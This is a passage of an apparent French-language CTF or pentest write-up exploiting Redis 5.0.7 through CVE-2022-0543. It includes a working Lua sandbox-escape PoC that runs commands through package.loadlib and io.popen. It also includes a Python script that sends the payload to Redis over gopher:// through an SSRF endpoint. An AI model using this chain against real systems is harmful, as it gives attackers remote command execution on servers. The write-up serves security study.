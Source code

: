 J'ai soumis cette *charge utile* pour obtenir plus d'informations sur l'instance *Redis* actuelle.

```prolog
# Server
redis_version:5.0.7
redis_git_sha1:00000000
redis_git_dirty:0
redis_build_id:636cde3b5c7a3923
redis_mode:standalone
os:Linux 6.1.0-10-amd64 x86_64
arch_bits:64
<SNIP>
```

Une recherche de vulnérabilités dans cette version spécifique de *Redis* (5.0.7) m'a conduit à [CVE-2022-0543](https://github.com/vulhub/vulhub/blob/master/redis/CVE-2022-0543/README.md), découvert par [Reginaldo Silva](https://www.ubercomp.com/posts/2022-01-20_redis_on_debian_rce).

## Exploitation

### Why?

Cette vulnérabilité ne provient pas directement de *Redis*. Sur certaines distributions, *Lua* est chargé dynamiquement, ce qui m'a permis de réaliser une **Remote Code Execution** sur l'hôte en échappant a la sandbox de *Lua*.

> This vulnerability existed because the Lua library in Debian/Ubuntu is provided as a dynamic library. A package variable was automatically populated that in turn permitted access to arbitrary Lua functionality.
> - <cite>Vulhub GitHub: *Redis Lua Sandbox Escape and Remote Code Execution (CVE-2022-0543)*</cite>

### PoC

```lua
-- loading "luaopen_io" module from the library to execute a command
local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io");
local io = io_l();
-- executing the command 'id'
local f = io.popen("id", "r");
-- reading and returning the output of the command
local res = f:read("*a");
f:close();
return res
```

J'ai transmis cette *charge utile* a la command [eval](https://redis.io/docs/latest/commands/eval/) du client *Redis*.

```python
from urllib.parse import quote
import requests

URL = "http://<TARGET:HOST>/api/red/generate"
payload = quote("""
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("id", "r"); local res = f:read("*a"); f:close(); return res' 0
quit
""")
input = {"url":f"gopher://<TARGET:HOST>:6379/_{payload}"}
headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0",
           "Content-Type": "application/json",
           "Cookie": "<SESSION_COOKIE>"}

request = requests.post(url=URL, json=input, headers=headers)
print(str(request.json()).replace("\\n", "\n").replace("\\r", ""))
```